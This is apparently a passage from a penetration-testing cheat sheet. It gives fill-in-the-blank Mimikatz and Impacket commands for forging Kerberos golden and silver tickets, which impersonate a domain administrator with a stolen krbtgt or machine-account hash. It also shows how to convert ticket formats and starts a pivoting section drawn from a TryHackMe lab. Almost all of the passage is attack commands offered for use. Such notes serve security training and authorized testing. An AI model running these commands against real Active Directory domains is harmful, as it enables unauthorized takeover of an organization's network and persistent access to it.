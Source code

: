 ```c
.\mimikatz.exe "kerberos::golden /domain:<DOMAIN> /sid:<DOMAIN-SID> /krbtgt:<HASH> /user:newAdmin /id:500 /ticket:<OUTPUT-TICKET>"
```

##### Golden Tickets with Impacket

- Create a ticket (use `impacket-lookupsid` to get SIDs)

```python
impacket-ticketer -nthash <KRBTGT_HASH> -domain-sid <SID> -domain <DOMAIN> -user-id <USER-SID> <USER>
```

#### Silver Tickets
---
To create a silver ticket, the following are required:
- The NT hash of the service account or the machine account password
- The Domain SID

**NOTE:** Read more [here](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/silver-ticket.html)
##### Silver Tickets with Mimikatz

```c
.\mimikatz.exe "kerberos::golden /domain:<DOMAIN> /sid:<DOMAIN-SID> /target:<TARGET-SERVICE-HOST> /rc4:<TARGET-MACHINE-HASH> /service:<SERVICE> /user:newAdmin /id:500 /ticket:<OUTPUT-TICKET>"
```

##### Silver Tickets with Impacket

```python
impacket-ticketer -nthash <TARGET-MACHINE-HASH> -domain-sid <SID> -domain <DOMAIN> -dc-ip <IP> -spn <TARGET-SERVICE> <USER>
```

#### Converting exported tickets
---
**Mimikatz** uses `.kirbi` tickets and **Impacket** uses `.ccache` tickets

- Converting to `.ccache` from mimikatz

```c
.\mimikatz.exe "misc::convert ccache ticket.kirbi" "exit"
```

- Converting with Impacket (both ways)

```python
#                          <input>     <output>
impacket-ticketConverter ticket.kirbi ticket.ccace
impacket-ticketConverter ticket.ccace ticket.kirbi
```

## Pivoting / Port Forwarding / Tunneling

Notes on Network Pivoting, Port Forwarding and Tunneling from TryHackMe's [Wreath Room](https://tryhackme.com/room/wreath).

